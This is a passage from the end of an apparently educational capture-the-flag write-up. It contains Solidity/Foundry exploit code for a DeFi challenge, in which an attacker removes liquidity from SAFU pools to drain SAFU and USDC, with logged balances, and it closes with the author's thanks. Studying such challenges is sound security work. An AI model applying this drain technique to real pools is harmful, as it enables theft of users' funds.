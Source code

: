 ```solidity
    console.log("balance token SAFU of bar address of safuMaker : ", safu.balanceOf(address(0x1111111111111111111111111111111111111111)));
    // = 4964079559099971064 , safuMaker got ~= 5e18

    console.log("LP safuPair of safuMaker: ", safuPair.balanceOf(address(safuMaker)));
    // = 0 , safuMaker loose all LP


    (reserve0, reserve1, ) = sifuPair.getReserves();
    console.log("reserve0 : ", reserve0, "reserve1 : ", reserve1);
    // reserve0 :  35920440900028936  reserve1 :  10080000000000000000000


    //remove liquidity to get SAFU and LP(USDC-SAFU)
    sifuPair.approve(address(safuRouter), type(uint).max);
    safuRouter.removeLiquidity(
        address(safuPair),
        address(safu),
        sifuPair.balanceOf(attacker),
        0,
        0,
        address(attacker),
        block.timestamp
    );

    console.log("LP safuPair of attacker: ", safuPair.balanceOf(address(attacker)));
    // LP safuPair of attacker:  10077497135616033822768


    //remove liquidity to get SAFU and USDC
    safuRouter.removeLiquidity(
        address(usdc),
        address(safu),
        safuPair.balanceOf(attacker),
        0,
        0,
        address(attacker),
        block.timestamp
    );

    console.log("usdc attacker : ", usdc.balanceOf(address(attacker)));
    // usdc attacker :  10097497135616033822768

    console.log("safu attacker : ", safu.balanceOf(address(attacker)));
    // safu attacker :  10092533047137887007949


    vm.stopPrank();
    validation();
}
```

This challenge was really cool. It allowed me to be more open-minded and not only focus on the protocol.

### Acknowledgement

Thank you [https://stermi.xyz/](https://stermi.xyz/) for inspiring me to write articles on CTF ^^.
